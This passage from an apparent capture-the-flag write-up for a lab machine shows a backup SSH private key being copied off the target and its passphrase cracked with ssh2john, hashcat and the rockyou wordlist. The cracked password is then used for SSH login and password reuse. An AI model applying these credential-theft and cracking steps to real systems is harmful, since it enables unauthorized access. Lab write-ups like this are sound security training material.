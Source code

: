 This looks like a password-encrypted SSH private key. Try to download it and crack it offline:

```bash
scp -i ~/.ssh/id_rsa redis@10.10.10.160:/opt/id_rsa.bak .
find / -iname ssh2john.py 2>/dev/null
/usr/share/john/ssh2john.py id_rsa.bak | cut -d ':' -f 2 > ssh.hash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hashcat -m 22911 -a 0 --quiet --potfile-disable ssh.hash rockyou.txt
```

But this results in an error

```
/usr/share/hashcat/modules/module_22911.so: cannot open shared object file: No such file or directory
```

Download and install the most recent version of hashcat:

```bash
git clone https://github.com/hashcat/hashcat.git
cd hashcat
make
./hashcat -m 22911 -a 0 --quiet --potfile-disable ../ssh.hash ../rockyou.txt
```

And this has a win:

![hash1](./postman/hash1.png)

Try these credentials over SSH:

```bash
# prep directory for SSH keys
mkdir ./ssh-target
chmod 700 ./ssh-target
cp id_rsa.bak ./ssh-target/private.key
chmod 600 ./ssh-target/private.key
# attempt SSH connection
ssh -i ./ssh-target/private.key Matt@10.10.10.160 # password computer2008
```

But this just results in a `Connection closed by 10.10.10.160 port 22` error? Try password reuse and use `su Matt` as indicated in the bash history:
